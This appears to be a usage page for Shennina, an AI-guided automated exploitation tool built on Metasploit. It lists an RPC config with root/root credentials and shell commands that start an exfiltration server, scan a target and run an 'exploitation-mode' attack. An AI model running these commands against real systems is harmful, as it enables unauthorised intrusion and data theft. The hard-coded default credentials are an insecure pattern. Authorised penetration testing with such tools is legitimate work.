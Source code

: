 # Shennina

/config/msfrpg-config.json

{
  "password": "root",
  "user": "root",
  "host": "172.17.0.1",
  "port": 55553,
  "ssl": false
}

# 1 Shell 1
# -------runs exfiltration server (separeted console)
$ cd ./exfiltration-server/
$ sudo ./run-server.sh

# 2 Shell 2
# ------runs msfconsole (separeted console)
./scripts/run-msfrpc.py

# 3 Shell 3
# ------runs shennina
./shennina.py --initialize-exploits-tree


#------ scanning phase------#
sudo ./shennina.py --lhost metasploit-ip --target target.local --service-scan-only

# ------------- training shennina ------------------#
sudo ./shennina.py --target 127.0.0.1 --lhost $target_IP --training-mode

# --------------- attacking with recommended exploit given by shennina AI -------------------#
sudo ./shennina.py --target 127.0.0.1 --lhost $target_IP --exploitation-mode



